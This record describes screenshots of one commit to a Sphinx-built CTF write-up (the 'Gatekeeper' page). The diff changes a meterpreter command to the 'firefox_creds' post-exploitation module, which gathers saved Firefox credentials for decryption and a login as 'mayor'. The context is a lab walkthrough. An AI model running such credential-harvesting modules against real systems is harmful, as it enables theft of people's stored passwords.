

Before and after one commit to tymyrddin/red-bo, a Sphinx documentation site: the page built from source/docs/ctf/gatekeeper.md, in a window 1280 px wide and 900 px high, scrolled down 10195 px. Shown: the part 564-856 px from the top of the window. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
gatekeeper

````diff
--- a/source/docs/ctf/gatekeeper.md
+++ b/source/docs/ctf/gatekeeper.md
@@ -563,7 +563,7 @@ O dear. Back to the drawing board. Ah.
 
 ```text
 meterpreter > run post/windows/gather/enum_applications
-meterpreter > run post/windows/gather/enum_applications
+meterpreter > run post/windows/gather/firefox_creds
 ```
 
 Then use the [Firefox Decrypt tool from Github](https://github.com/unode/firefox_decrypt), and log in to the "mayor"
````
